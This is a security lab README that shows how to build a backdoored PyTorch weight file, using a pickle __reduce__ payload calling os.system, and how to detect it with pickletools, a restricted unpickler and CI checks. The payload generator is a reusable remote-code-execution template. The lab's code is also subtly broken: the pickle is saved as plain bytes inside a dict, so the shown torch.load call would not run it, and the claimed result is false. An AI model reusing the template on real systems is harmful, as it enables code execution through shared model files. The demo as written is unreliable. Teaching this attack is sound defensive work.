 # Pickle Backdoor Lab

> Craft and detect a malicious PyTorch weight file that executes code on load\
> **Difficulty:** 🌶️🌶️ Medium–High  **Time:** 20–25 min

***

### 🖥️ 1. Launch the Lab

| Option           | How                                                                                                                        |
| ---------------- | -------------------------------------------------------------------------------------------------------------------------- |
| **Google Colab** | [Open in Colab](https://colab.research.google.com/github/codemedici/llm-security-labs/blob/main/pickle_backdoor_lab.ipynb) |
| **Local Python** | `bash\npip install torch\npython pickle_backdoor_lab.py`                                                                   |

***

### 🎯 2. Objectives

1. **Build** a malicious `.pt` file that spawns `calc` (macOS) or opens Notepad (Windows) on load.
2. **Verify** exploitation via `torch.load()`.
3. **Detect & Mitigate** using `pickletools.dis` and safe-loader pattern.

***

### 🧑‍💻 3. Crafting the Payload

<details>

<summary>payload_generator.py</summary>

```python
import os, pickle, torch, io

class RCE:
    def __reduce__(self):
        cmd = "open -a Calculator" if os.uname().sysname == "Darwin" else "notepad"
        return (os.system, (cmd,))

payload = RCE()
buf = io.BytesIO()
pickle.dump(payload, buf)            # malicious pickle bytes

# wrap into fake state_dict so torch.load() accepts it
torch.save({"model": buf.getvalue()}, "exploit_weights.pt")
print("exploit_weights.pt created!")
```

</details>

***

### 🔥 4. Exploitation Test

```python
import torch
torch.load("exploit_weights.pt")     # 🎉 Notepad / Calculator pops !
```

***

### 🔍 5. Detection & Mitigation

#### 5.1 Static Analysis

```python
import pickletools
with open("exploit_weights.pt", "rb") as f:
    pickletools.dis(f)   # look for GLOBAL os system, etc.
```

#### 5.2 Safe Loader Pattern

```python
import torch, io, pickle, types

SAFE_BUILTINS = {"builtins": {"list", "dict", "set"}}

class SafeUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in SAFE_BUILTINS and name in SAFE_BUILTINS[module]:
            return super().find_class(module, name)
        raise pickle.UnpicklingError("Unsafe pickle!")

def safe_torch_load(path):
    with open(path, "rb") as f:
        data = f.read()
    return SafeUnpickler(io.BytesIO(data)).load()

# safe_torch_load("exploit_weights.pt")  -> raises error
```

#### 5.3 CI/CD Guard

* Reject model files > 100 MB _and_ containing custom classes.
* Require SHA-256 allow-list for production weights.

***

### 📝 6. Reflection Questions

1. How would this payload differ for `keras.models.load_model()`?
2. Can pickle abuse bypass container isolation?
3. Which runtime (e.g., TorchScript) mitigates this class of threat?

***

#### 📚 Related Notebook Links

* Pickle Deserialization and Unsafe Model Loading
* Supply Chain & Serialization Risks
